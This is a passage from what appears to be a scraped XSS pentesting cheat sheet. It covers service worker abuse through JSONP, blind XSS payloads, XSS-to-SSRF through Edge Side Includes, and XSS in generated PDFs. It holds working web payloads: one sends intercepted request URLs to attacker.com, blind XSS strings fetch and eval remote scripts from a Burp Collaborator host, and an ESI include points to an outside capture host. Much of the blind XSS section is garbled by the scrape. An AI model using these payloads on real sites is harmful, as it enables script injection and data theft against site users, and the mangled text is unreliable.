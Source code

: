  \`\`\` In case of abusing a vulnerable JSONP endpoint you should put the value inside \`var sw\`. For example: \`\`\`javascript var sw = "/jsonp?callback=onfetch=function\(e\){ e.respondWith\(caches.match\(e.request\).then\(function\(response\){ fetch\('https://attacker.com/fetch\_url/' + e.request.url\) }\) \)}//"; \`\`\` There is \*\*C2\*\* dedicated to the \*\*exploitation of Service Workers\*\* called \[\*\*Shadow Workers\*\*\]\(https://shadow-workers.github.io/\) that will be very useful to abuse these vulnerabilities. \#\#\# Polyglots {% embed url="https://github.com/carlospolop/Auto\\_Wordlists/blob/main/wordlists/xss\\_polyglots.txt" %} \#\#\# Blind XSS payloads \`\`\`markup "&gt;**![](https://github.com/haiclover/InfoSec/tree/f7f974837932a758accdc568bbbfd074627b200c/domain/xss) **"&gt; &gt;**[**Click Me For An Awesome Time**](javascript:eval%28'd=document;%20_%20=%20d.createElement%28\'script\'%29;_.src=\'//domain\';d.body.appendChild%28_%29'%29)**function b\(\){eval\(this.responseText\)};a=new XMLHttpRequest\(\);a.addEventListener\("load", b\);a.open\("GET", "//0mnb1tlfl5x4u55yfb57dmwsajgd42.burpcollaborator.net/scriptb"\);a.send\(\); "&gt; "&gt;"&gt;**

"&gt;

"&gt;

$.getScript\("//domain"\)

"&gt;![](https://github.com/haiclover/InfoSec/tree/f7f974837932a758accdc568bbbfd074627b200c/pentesting-web/xss-cross-site-scripting/x)

"&gt;

&lt;p title="![](https://github.com/haiclover/InfoSec/tree/f7f974837932a758accdc568bbbfd074627b200c/pentesting-web/xss-cross-site-scripting/x)"&gt;

"&gt;

```text
### Brute-Force List

{% embed url="https://github.com/carlospolop/Auto\_Wordlists/blob/main/wordlists/xss.txt" %}

## XSS Abusing other vulnerabilities

### XSS to SSRF

Got XSS on a **site that uses caching**? Try **upgrading that to SSRF** through Edge Side Include Injection with this payload:

```python
<esi:include src="http://yoursite.com/capture" />
```

Use it to bypass cookie restrictions, XSS filters and much more!  
More information about this technique here: [**XSLT**](../xslt-server-side-injection-extensible-stylesheet-languaje-transformations.md).

### XSS in dynamic created PDF

If a web page is creating a PDF using user controlled input, you can try to **trick the bot** that is creating the PDF into **executing arbitrary JS code**.  
So, if the **PDF creator bot finds** some kind of **HTML** **tags**, it is going to **interpret** them, and you can **abuse** this behaviour to cause a **Server XSS**.
